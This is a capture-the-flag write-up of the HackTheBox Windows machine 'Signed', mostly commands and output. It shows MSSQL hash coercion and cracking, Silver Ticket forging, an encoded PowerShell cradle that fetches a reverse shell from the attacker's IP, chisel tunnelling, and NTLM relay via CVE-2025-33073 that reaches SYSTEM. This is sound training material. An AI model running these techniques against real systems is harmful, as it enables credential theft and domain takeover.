

Signed is a Windows HackTheBox machine and as is common in real life Windows penetration tests, we will start the Signed box with credentials for the following account which can be used to access the MSSQL service: scott / Sm230#C5NatH
└─$ nmap 10.129.242.173 -oA nmap/signed
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-24 07:03 UTC
Nmap scan report for 10.129.242.173
Host is up (0.034s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT STATE SERVICE
1433/tcp open ms-sql-s
Nmap done: 1 IP address (1 host up) scanned in 38.29 seconds
From the Nmap output we have only one port open, the 1433 relative to MSSQL.
With the credentials provided we will test them for mssql using netexec.
When testing for mssql access we have to try even with local-auth flag, because without this flag, the login will come from an untrusted domain and the connection will fail.
└─$ nxc mssql 10.129.242.173 -u scott -p 'Sm230#C5NatH'
MSSQL 10.129.242.173 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:SIGNED.HTB)
MSSQL 10.129.242.173 1433 DC01 [-] SIGNED.HTB\scott:Sm230#C5NatH (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication.')
└─$ nxc mssql 10.129.242.173 -u scott -p 'Sm230#C5NatH' --local-auth
MSSQL 10.129.242.173 1433 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:SIGNED.HTB)
MSSQL 10.129.242.173 1433 DC01 [+] DC01\scott:Sm230#C5NatH
We will access the MSSQL service with impacket and enumerate our user and our permissions, and the user that we can impersonate.
└─$ impacket-mssqlclient scott@10.129.242.173
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (scott guest@master)>
SQL (scott guest@master)> SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin');
SQL (scott guest@master)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'
name
----
SQL (scott guest@master)>
The user scott doesn't has the IMPERSONATE permission on any user.
So far we don't have any permission.
We can try steal the MSSQL service account hash using xp_subdirs or xp_dirtree.. When we use one of these stored procedures and point it to our SMB server, the directory listening functionality will force the server to authenticate and send the NTLMv2 hash of the service account that is running the SQL Server. We need first top start Responder.
└─$ sudo responder -I tun0
Then we execute xp_dirtree on the MSSQL service.
SQL (scott guest@master)> EXEC master..xp_dirtree '\\10.10.15.204\share\'
And we got the hash of the mssqlsvc service account.

We save this hash and we use hashcat to crack it.
└─$ hashcat -m 5600 mssqlsvc_hash /usr/share/wordlists/rockyou.txt
hashcat (v7.1.2) starting
<SNIP>
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385
MSSQLSVC::SIGNED:3269435dd2b173fc:ad487919e1aefd747de9d4653e5c210e:010100000000000080138e6b60bbdc01dc6de74412800b9b0000000002000800360039004b00510001001e00570049004e002d004d004f0054003500570043005a0049005a004100550004003400570049004e002d004d004f0054003500570043005a0049005a00410055002e00360039004b0051002e004c004f00430041004c0003001400360039004b0051002e004c004f00430041004c0005001400360039004b0051002e004c004f00430041004c000700080080138e6b60bbdc0106000400020000000800300030000000000000000000000000300000ff24d729473b2b9d99b3619a09ce58a5345c33ce5befbcab3cb8707db846fb8a0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310035002e003200300034000000000000000000:purPLE9795!@
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: MSSQLSVC::SIGNED:3269435dd2b173fc:ad487919e1aefd747...000000
<SNIP>
└─$ impacket-mssqlclient mssqlsvc@10.129.242.173
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Password:
[*] Encryption required, switching to TLS
[-] ERROR(DC01): Line 1: Login failed for user 'mssqlsvc'.
The login failed, we have to try with -windows-auth flag.
└─$ impacket-mssqlclient mssqlsvc@10.129.242.173 -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (SIGNED\mssqlsvc guest@master)>
SQL (SIGNED\mssqlsvc guest@master)> SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
name
----
SQL (SIGNED\mssqlsvc guest@master)> SELECT SYSTEM_USER SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
SIGNED\mssqlsvc
0
SQL (SIGNED\mssqlsvc guest@master)> enable_xp_cmdshell
ERROR(DC01): Line 105: User does not have permission to perform this action.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
ERROR(DC01): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
ERROR(DC01): Line 1: You do not have permission to run the RECONFIGURE statement.
SQL (SIGNED\mssqlsvc guest@master)> help
lcd {path} - changes the current local directory to {path}
exit - terminates the server process (and this session)
enable_xp_cmdshell - you know what it means
disable_xp_cmdshell - you know what it means
enum_db - enum databases
enum_links - enum linked servers
enum_impersonate - check logins that can be impersonated
enum_logins - enum login users
enum_users - enum current db users
enum_owner - enum db owner
exec_as_user {user} - impersonate with execute as user
exec_as_login {login} - impersonate with execute as login
xp_cmdshell {cmd} - executes cmd using xp_cmdshell
xp_dirtree {path} - executes xp_dirtree on the path
sp_start_job {cmd} - executes cmd using the sql server agent (blind)
use_link {link} - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
! {cmd} - executes a local shell cmd
upload {from} {to} - uploads file {from} to the SQLServer host {to}
download {from} {to} - downloads file from the SQLServer host {from} to {to}
show_query - show query
mask_query - mask query
We can try to enumerate the users present on the machine and logins.
SQL (SIGNED\mssqlsvc guest@master)> enum_users
UserName RoleName LoginName DefDBName DefSchemaName UserID SID
--------------------------------- -------- --------------------------------- --------- ------------- ---------- -------------------------------------------------------------------
##MS_AgentSigningCertificate## public ##MS_AgentSigningCertificate## master NULL b'6 ' b'010600000000000901000000fb1b6ce60eda55e1d3dde93b99db322bfc435563'
##MS_PolicyEventProcessingLogin## public ##MS_PolicyEventProcessingLogin## master dbo b'5 ' b'56f12609fb4eb548906b5a62effb1840'
dbo db_owner sa master dbo b'1 ' b'01'
guest public NULL NULL guest b'2 ' b'00'
INFORMATION_SCHEMA public NULL NULL NULL b'3 ' NULL
sys public NULL NULL NULL b'4 ' NULL
SQL (SIGNED\mssqlsvc guest@master)> enum_logins
name type_desc is_disabled sysadmin securityadmin serveradmin setupadmin processadmin diskadmin dbcreator bulkadmin
--------------------------------- ------------- ----------- -------- ------------- ----------- ---------- ------------ --------- --------- ---------
sa SQL_LOGIN 0 1 0 0 0 0 0 0 0
##MS_PolicyEventProcessingLogin## SQL_LOGIN 1 0 0 0 0 0 0 0 0
##MS_PolicyTsqlExecutionLogin## SQL_LOGIN 1 0 0 0 0 0 0 0 0
SIGNED\IT WINDOWS_GROUP 0 1 0 0 0 0 0 0 0
NT SERVICE\SQLWriter WINDOWS_LOGIN 0 1 0 0 0 0 0 0 0
NT SERVICE\Winmgmt WINDOWS_LOGIN 0 1 0 0 0 0 0 0 0
NT SERVICE\MSSQLSERVER WINDOWS_LOGIN 0 1 0 0 0 0 0 0 0
NT AUTHORITY\SYSTEM WINDOWS_LOGIN 0 0 0 0 0 0 0 0 0
NT SERVICE\SQLSERVERAGENT WINDOWS_LOGIN 0 1 0 0 0 0 0 0 0
NT SERVICE\SQLTELEMETRY WINDOWS_LOGIN 0 0 0 0 0 0 0 0 0
scott SQL_LOGIN 0 0 0 0 0 0 0 0 0
SIGNED\Domain Users WINDOWS_GROUP 0 0 0 0 0 0 0 0 0
What we see here is that we have sa and other five users who have the sysadmin privileges, and one group, SIGNED\IT.
A Silver Ticket allows an attacker to forge a valid Kerberos service ticket (TGS) for a specific service without communicating with the Domain Controller. It works because the service ticket is encrypted using the NTLM hash of the service account that owns the SPN.
We can completely skip steps 1 and 2. Since we already possessed the NTLM hash of the mssqlsvc service account (the account that registered the MSSQL SPN), we forged a service ticket locally using that hash.
We created a ticket that:
Because the MSSQL service trusts any ticket encrypted with its own service account hash, it accepted the forged ticket as valid. The service saw that the presented user belonged to the SIGNED\IT group, which is mapped to the sysadmin server role, granting us full administrative privileges on the database.
We then used the forged Silver Ticket to authenticate to the MSSQL instance and escalated privileges.
Because the SQL service trusts Kerberos tickets that are encrypted with mssqlsvc’s own hash, we can:
Reference Silver Ticket
Getting the RID of the user mssqlsvc (and is NTLM hash) and for the group SIGNED\IT, and the domain SID.
└─$ python3 -c 'import hashlib; print(hashlib.new("md4", "purPLE9795!@".encode("utf-16le")).hexdigest())'
ef699384c3285c54128a3ee1ddb1a0cc
SQL (SIGNED\mssqlsvc guest@master)> SELECT SUSER_SID('SIGNED\Domain Users');
-----------------------------------------------------------
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca401020000'
└─$ python
Python 3.13.9 (main, Oct 15 2025, 14:56:22) [GCC 15.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from impacket.dcerpc.v5.dtypes import SID
>>> SID(bytes.fromhex('0105000000000005150000005b7bb0f398aa2245ad4a1ca401020000')).formatCanonical()
'S-1-5-21-4088429403-1159899800-2753317549-513'
>>>
SQL (SIGNED\mssqlsvc guest@master)> select SUSER_SID('Signed\IT')
-----------------------------------------------------------
b'0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000'
└─$ python
Python 3.13.9 (main, Oct 15 2025, 14:56:22) [GCC 15.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from impacket.dcerpc.v5.dtypes import SID
>>> SID(bytes.fromhex('0105000000000005150000005b7bb0f398aa2245ad4a1ca451040000')).formatCanonical()
'S-1-5-21-4088429403-1159899800-2753317549-1105'
>>>
┌──(kali㉿kali)-[~/LABS/Signed]
└─$ impacket-ticketer -spn MSSQLSvc/DC01.signed.htb:1433 \
-nthash ef699384c3285c54128a3ee1ddb1a0cc \
-domain signed.htb \
-domain-sid S-1-5-21-4088429403-1159899800-2753317549 \
-user Administrator \
-groups '512,1105' Administrator
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for signed.htb/Administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in Administrator.ccache
┌──(kali㉿kali)-[~/LABS/Signed]
└─$ export KRB5CCNAME=Administrator.ccache
└─$ KRB5CCNAME=Administrator.ccache impacket-mssqlclient -no-pass -k DC01.signed.htb
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01): Line 1: Changed database context to 'master'.
[*] INFO(DC01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (SIGNED\Administrator dbo@master)> enable_xp_cmdshell
INFO(DC01): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC01): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SIGNED\Administrator dbo@master)> xp_cmdshell whoami
output
---------------
signed\mssqlsvc
NULL
SQL (SIGNED\Administrator dbo@master)> xp_cmdshell "type C:\Users\mssqlsvc\Desktop\user.txt"
output
--------------------------------
ede05ac9e516************
NULL
SQL (SIGNED\Administrator dbo@master)> xp_cmdshell "type C:\Users\Administrator\Desktop\root.txt"
output
-----------------
Access is denied.
NULL
SQL (SIGNED\mssqlsvc dbo@master)> xp_cmdshell powershell -encodedcommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADIAMAA0ADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAHAAcwAxACcAKQA=
└─$ rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.204] from (UNKNOWN) [10.129.242.173] 55245
PS C:\Windows\system32>
The NTLM reflection technique behind CVE-2025-33073 exploits how Windows decides whether an SMB connection is “local” or “remote.”
An attacker creates a malicious DNS record with a specially crafted name (a so-called ghost SPN) that looks like it belongs to the victim machine, but actually points to the attacker’s system. When the victim connects to that name, Windows is fooled into thinking it’s talking to itself.
Because of this misclassification, the SMB client treats the connection as local, allowing authentication to proceed with high privileges (SYSTEM level). This bypasses normal protections against NTLM reflection and lets the attacker relay the authentication and escalate privileges.
Reference Relaying Kerberos over SMB using krbrelayx
└─$ cat /etc/proxychains4.conf
<snip>
#socks4 127.0.0.1 9050 #tor
socks5 127.0.0.1 1080 #ssh pivoting
#http 127.0.0.1 8080 #burp
└─$ chisel server --reverse -p 8000
2026/03/24 10:03:52 server: Reverse tunnelling enabled
2026/03/24 10:03:52 server: Fingerprint DlKg09A8J1BbQsP+pz38fWeV4lS/Kl+IF/9ZnlkqGuQ=
2026/03/24 10:03:52 server: Listening on http://0.0.0.0:8000
Uploading chisel to the target machine and starting the reverse proxy
PS C:\tools> iwr -uri http://10.10.15.204:8000/chisel.exe -outfile chisel.exe
PS C:\tools> .\chisel.exe client 10.10.15.204:8000 R:socks
└─$ proxychains nc -zv 10.129.242.173 445
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain ... 127.0.0.1:1080 ... 10.129.242.173:445 ... OK
10.129.242.173 [10.129.242.173] 445 (microsoft-ds) open : Operation now in progress
└─$ git clone https://github.com/dirkjanm/krbrelayx
└─$ proxychains python dnstool.py -u 'SIGNED\mssqlsvc' -p 'purPLE9795!@' -a add -r dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA -d 10.10.15.204 10.129.242.173
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[-] Connecting to host...
[-] Binding to host
[proxychains] Strict chain ... 127.0.0.1:1080 ... 10.129.242.173:389 ... OK
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
└─$ proxychains impacket-ntlmrelayx -t winrms://DC01.signed.htb -smb2support
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client WINRMS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Multirelay disabled
[*] Servers started, waiting for connections
[*] (SMB): Received connection from 10.129.242.173, attacking target winrms://DC01.signed.htb
[!] The client requested signing, relaying to WinRMS might not work!
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:5986 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:5986 ... OK
[*] HTTP server returned error code 500, this is expected, treating as a successful login
[*] (SMB): Authenticating connection from /@10.129.242.173 against winrms://DC01.signed.htb SUCCEED [1]
[*] winrms:///@dc01.signed.htb [1] -> Started interactive WinRMS shell via TCP on 127.0.0.1:11000
[*] (SMB): Received connection from 10.129.242.173, attacking target winrms://DC01.signed.htb
[!] The client requested signing, relaying to WinRMS might not work!
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:5986 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:5986 ... OK
[*] HTTP server returned error code 500, this is expected, treating as a successful login
[*] (SMB): Authenticating connection from /@10.129.242.173 against winrms://DC01.signed.htb SUCCEED [2]
[*] winrms:///@dc01.signed.htb [2] -> Started interactive WinRMS shell via TCP on 127.0.0.1:11001
└─$ proxychains nxc smb dc01.signed.htb -u MSSQLSVC -p 'purPLE9795!@' -M coerce_plus -o L=dc011UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA M=petitpotam
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:445 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:135 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:445 ... OK
SMB 224.0.0.1 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:SIGNED.HTB) (signing:True) (SMBv1:False)
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:445 ... OK
SMB 224.0.0.1 445 DC01 [+] SIGNED.HTB\MSSQLSVC:purPLE9795!@
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:445 ... OK
[proxychains] Strict chain ... 127.0.0.1:1080 ... dc01.signed.htb:445 ... OK
COERCE_PLUS 224.0.0.1 445 DC01 VULNERABLE, PetitPotam
COERCE_PLUS 224.0.0.1 445 DC01 Exploit Success, lsarpc\EfsRpcAddUsersToFile
└─$ proxychains impacket-ntlmrelayx -t winrms://DC01.signed.htb -smb2support
<SNIP>
[*] (SMB): Authenticating connection from /@10.129.242.173 against winrms://DC01.signed.htb SUCCEED [2]
[*] winrms:///@dc01.signed.htb [2] -> Started interactive WinRMS shell via TCP on 127.0.0.1:11001
└─$ nc 127.0.0.1 11001
Type help for list of commands
# whoami
nt authority\system
# DIR C:\Users\Administrator\Desktop
Volume in drive C has no label.
Volume Serial Number is BED4-436E
Directory of C:\Users\Administrator\Desktop
10/06/2025 05:04 AM <DIR> .
10/06/2025 05:04 AM <DIR> ..
03/23/2026 11:57 PM 34 root.txt
1 File(s) 34 bytes
2 Dir(s) 6,357,471,232 bytes free
# type C:\Users\Administrator\Desktop\root.txt
29f7278f92b6b**********